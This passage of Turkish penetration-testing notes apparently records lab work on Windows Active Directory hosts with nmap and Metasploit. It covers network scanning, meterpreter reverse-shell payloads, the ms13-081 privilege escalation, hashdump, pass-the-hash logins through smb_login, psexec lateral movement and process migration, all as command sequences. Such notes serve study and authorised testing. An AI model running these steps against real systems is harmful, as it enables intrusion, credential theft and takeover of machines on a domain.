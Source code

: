 		M> use /post/windows/gather/enum_patches
		M> set SESSION 1
		M> exploit
		M> search ms13-081
		M> use MODUL
		M> set SESSION 1
		M> exploit
		Mtr> SESSION IS OPEN!

**Active Directory'e dahil windows makineye sızmak:**

	=> nmap -n -sn 192.168.1.240-250 -oN up.txt (hangi host'ların up olduğunu up.txt'ye yazdırır.)
	=> cat up.txt | grep -w for | cut -d ' ' -f 5 > hedef.txt
	=> nmap -n -Pn -sS -v --open -iL hedef.txt

- Windows 7'den sonraki işletim sistemlerinde rpc servisleri bölündü ve default olarak kullanılan portlarda 49152, 49153, 49154 portları da yer almakta.

		=> nmap -n -Pn -sV --open 192.168.1.240 -vv -p 8080	(Easy File Sharing 6.9)
		=> nmap -n -Pn -sV --open 192.168.1.240 -vv -p 445 --script smb-os-discovery

- MSF'de payload'ların cinsini, yazılma şekillerindeki syntax'tan anlayabiliriz.
	- Staged payload'lar -> windows/meterpreter/reverse_tcp
	- Stageless payload'lar -> windows/meterpreter_reverse_tcp

			M> set payload windows/meterpreter/reverse_https
			M> exploit
			Met> background
			M> use ms13-081		(PWNED!)
			Shell> net user alice /domain

**- AUTH/SYS olduktan sonra yapılacak şeyler:**

	M> hashdump

**- Pass the Hash:** winlogon.exe girilen parolayı NTLM'e çevirdikten sonra (Windows'un kullandığı şifreleme algoritması) lsass.exe'ye gönderir. lsass.exe verilen hash'i SAM database'de karşılaştırır.

- Eğer hash c089c0 ile bitiyor ise kullanıcının parolası yok demektir. (Guest)

		Mtr> background
		M> use auxiliary/scanner/smb/smb_login
		M> set RHOSTS hedef.txt
		M> set SMBDOMAIN WORKGROUP 	(çünkü bizim elde ettiğimiz Admin.. hash'i workgroup'a ait)
		M> set SMBUSER Administrator
		M> set SMBPASS <HASH>
		M> set THREADS 5
		M> exploit

**- SMB kullanıcı adı ve parolası geçerli olduğu hedeflerde giriş yapabilmek için kullanacağımız modül:**

	M> use exploit/windows/smb/psexec
	Mtr> ps
	Mtr> migrate winlogon.exe	(Bunu yapma amacımız hem daha güvenli kalmak hem de meterpreter'i 32bitten 64bite çıkarmak, çünkü girdiğimiz sistem 64 bit ve komut çalıştırabilmemiz için 64bit bir process sömürüyor olmamız gerek.)

